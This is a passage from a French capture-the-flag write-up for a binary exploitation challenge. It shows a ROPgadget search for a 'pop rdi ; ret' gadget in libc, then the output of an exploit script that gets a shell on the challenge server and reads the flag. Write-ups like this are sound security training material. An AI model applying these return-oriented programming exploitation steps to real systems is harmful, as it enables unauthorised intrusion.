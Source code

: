 Et un gadget `pop rdi ; ret` :

```console
$ ROPgadget --binary libc.so.6 | grep "pop rdi ; ret"
0x0000000000023b6a : pop rdi ; ret
```

Il ne nous reste plus qu'à tout mettre en commun dans [ce script](./exploit.py), ce qui nous donne :

```console
$ python3 exploit.py 
[*] '/home/geoffrey/Documents/Campus/Star-Hack/Pwn0x03/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to 35.180.44.229 on port 1237: Done
[*] Switching to interactive mode
$ whoami
ctf
$ ls
flag.txt
task
ynetd
$ cat flag.txt
StarHack{fms_bUG5_ar3_mY_favorites_wh4t_ab0ut_y0u?ASDSAKDASDKASFFDSASDFSA}
```
